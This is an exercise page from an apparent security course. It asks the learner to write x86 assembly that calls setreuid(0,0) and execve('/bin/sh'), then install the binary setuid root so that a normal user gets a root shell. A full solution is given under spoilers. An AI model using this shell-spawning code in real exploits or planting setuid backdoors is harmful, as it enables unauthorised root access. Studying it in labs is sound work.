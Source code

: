 # Shell-Spawning Code (Version. 1)

* (SPOILER) Reference: [0x2a4 Shell-Spawning Code](https://bista.sites.dmi.unipg.it/didattica/sicurezza-pg/buffer-overrun/hacking-book/0x2a0-writing_shellcode.html)

## TODO
1. Before you start, ensure that you are a non-root user!
2. Write a shellcode that spawns normal user shell on **x86**. Add some codes so that it can also spawn a root shell, when you are running a `setuid` root program with the root privileges! Compile the code.
3. Execute the program, and check if the program spawns a normal user shell correctly.
4. Switch your account to root, and do the Step 3 again. If it spawns a root shell successfully, go to the next!
5. With being granted root privilege temporarily, change the owner of the program as root.
6. With being granted root privilege temporarily, set the `setuid` bit.
7. Execute the program as a non-root user again, and check the user of the spawned shell with a command. Are you root or not?

### Constraints
1. Declare just one variable; define a string something like `fpath = "(PATH)XXXXAAAABBBBCCCC"`. You can adjust the masking alphabet part. (Example: /my/path/helloXABBCCCCD)
2. Use `fpath` for ALL arguments that load an address.

## Hints
<details>
  <summary><b>SPOILERS</b></summary>

### Hint 1: System Calls
    // NR = 70
    int setreuid(uid_t ruid, uid_t euid);

    // NR = 11
    int execve(const char *pathname, char *const _Nullable argv[],
                  char *const _Nullable envp[]);

### Hint 2: Section
1. `.data`: The data section

    a. String "/bin/shXXXX" (Note: Just an example for the hint! Might not be the final.)
   
2. `.text`: The code section

    a. `.global`: `_start` (The entry point of the program)
  
    b. `_start`

    * int setreuid(uid_t *ruid*, uid_t *euid*);
    * int execve(const char **pathname*, char **const* _Nullable *argv[]*, char *const _Nullable *envp[]*);

### Hint 3: Execution

1. (TODO 1~3) Compile & Execute as Normal User

   a. `gcc`: GNU Compiler. Need to generate code for IA-32 architecture.

   b. `ld`: GNU Linker. Need to output 32-bit code.

   c. Execute the output.

2. (TODO 4) Switch to Root, and Do Step 1 Again

   a. `su`: A command to switch account to root.

   b. `cd`: A command to change directory.

3. (TODO 5) Change the Owner of the Program with Root Privilege Temporarily

   a. `sudo`: A command to temporarily being granted root privilege.

   b. `chown`: A command to change the owner of the program.
   
5. (TODO 6) Set the `setuid` bit to the Program with Root Privilege Temporarily

   a. `sudo`: A command to temporarily being granted root privilege.

   b. `chmod`: A command to set the `setuid` bit.

</details>

## Solution
<details>
  <summary><b>SPOILERS</b></summary>

    .data
    filepath:
            .string "/bin/shXAAAABBBB"
    .text
    .global _start
    _start:
            movl $70, %eax
            movl $0, %ebx
            movl $0, %ecx
            int $0x80
    
            movl $0, %eax
            movl $filepath, %ebx
            movb %al, 7(%ebx)
            movl %ebx, 8(%ebx)
            movl %eax, 12(%ebx)
    
            movl $11, %eax
            leal 8(%ebx), %ecx
            leal 12(%ebx), %edx
            int $0x80

### `setreuid`
Linux manual page: [setreuid](https://man7.org/linux/man-pages/man2/setreuid.2.html)

* `setuid` root programs usually drop root privileges for the security purposes. Therefore, even if a shellcode has the `setuid` bit, if it runs only `execve`, it will always spawn a normal user shell for the normal user.

</details>
